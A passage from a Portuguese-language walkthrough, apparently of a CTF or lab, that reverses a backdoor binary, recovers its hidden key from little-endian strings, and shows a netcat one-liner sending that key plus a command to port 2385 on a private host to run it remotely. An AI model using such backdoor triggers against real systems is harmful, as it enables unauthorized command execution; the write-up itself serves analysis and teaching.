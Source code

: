 ## Devido ao formato **little endian**, as strings aparecem invertidas. Ao reorganizá-las na ordem correta, conseguimos obter uma **key** válida.
![Descrição da imagem](./images/17.png)

## Vemos que a backdoor faz a validação da key e após isso executa o comando no sistema:
![Descrição da imagem](./images/18.png)

## Então, ao enviar a string backd00r2k23@_id, o comando id será executado no servidor. Para testar isso, podemos usar o netcat para se conectar à porta 2385 do servidor e enviar a string:
```bash
echo "backd00r2k23@_id" | nc 172.31.21.126 2385
```
![Descrição da imagem](./images/19.png)
